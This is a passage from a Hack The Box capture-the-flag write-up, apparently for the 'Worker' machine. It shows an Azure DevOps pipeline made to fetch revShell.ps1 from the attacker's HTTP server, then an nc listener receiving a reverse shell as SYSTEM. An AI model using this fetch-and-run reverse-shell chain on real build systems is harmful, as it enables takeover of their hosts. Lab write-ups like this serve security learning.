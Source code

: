 ![](/assets/img/15-success2.png)

Unfortunately I don't remember exactly what I had done wrong, or how I fixed it \(I need to take more detailed notes, I guess!\).  However, after a lot of trial and error, I was able to get the project to build and also execute my script.  No I hoped that it would actually execute the PowerShell script and send me a reverse shell!

New Pipeline - Azure Repos Git - PartsUnlimited - Starter Pipeline

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ python3 -m http.server 8909
Serving HTTP on 0.0.0.0 port 8909 (http://0.0.0.0:8909/) ...
10.10.10.203 - - [12/Dec/2020 20:32:32] "GET /revShell.ps1 HTTP/1.1" 200 -
```

My waiting python HTTP server got a connection request, and I could see that it sent the script.

### Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099                                                                                   1 ⨯
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 51544

PS W:\agents\agent11\_work\8\s> whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

```